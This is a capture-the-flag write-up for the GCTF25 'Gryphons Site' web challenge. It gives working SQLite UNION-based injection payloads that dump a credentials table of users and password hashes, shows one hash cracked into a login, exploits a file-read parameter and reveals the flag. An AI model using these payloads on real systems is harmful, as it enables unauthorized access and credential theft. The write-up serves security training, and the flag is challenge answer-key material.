# Gryphons Site

Gryphons website. Good luck.

# Flag
```
GCTF25{welcome_to_gryphons}
```

# Solution



Clicking on "Meet Our Team" brings us to this page:



Visiting the Admin login page:



I tried to conduct SQL injection in this page but I could not gain access.
In the Team page, I clicked on "Learn More" for one of the members:



I tried some IDOR exploits with the URL (`http://chal1.gryphons.sg:8000/members?id=1`) to no use. Then, I tried some SQL payloads by fuzzing the number of columns retrieved and it worked.

`/members?id=5+UNION+SELECT+1,2,3,4,5,6--+-`


Subsequently, I identified the SQL server ([SQLite](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/SQLite%20Injection/)) and extracted the table name that I wanted, its columns, and its data.

`/members?id=5+UNION+SELECT+1,tbl_name,3,4,5,6+FROM+sqlite_master+WHERE+type='table'+LIMIT+1+OFFSET+3--+-`


`/members?id=5+UNION+SELECT+1,GROUP_CONCAT(name)+AS+column_names,3,4,5,6+FROM+pragma_table_info('creds')+LIMIT+1+OFFSET+0--+-`


`/members?id=5+UNION+SELECT+id,username,password_hash,created_at,5,6+FROM+creds+LIMIT+1+OFFSET+0--+-`


By changing the OFFSET value for the last payload, I enumerated the info of all users. The following is what was extracted:

```
bryan:24c8680baff0e354846b92c5e7e2b9b7a241c229
weiyan:a587dd9cd6fcb0ed05812e07d0c452c0b18e20c1
ziqian:0d42612815bdc924777fcc8bd0b77a4c9e74099a
```

Inserting these 3 hashes into [CrackStation](https://crackstation.net/), only 1 hash was cracked:



Now, we can login into the Admin dashboard using the credentials `weiyan:maple`, and we are met with this dashboard.



After some exploration, the "Content Management" function seemed to be the most interesting and exploitable:

`http://chal1.gryphons.sg:8000/page?file=index.html`


Looks like we can view the contents of any file we want by changing the parameter value. Trying to view `flag.html` yields this result:



A simple Base64 decode and we have our flag.

```bash
jerald@DESKTOP-HGSM9AM:~/ctf/gctf25/web/gryphons_site$ echo R0NURjI1e3dlbGNvbWVfdG9fZ3J5cGhvbnN9 | base64 -d
GCTF25{welcome_to_gryphons}
```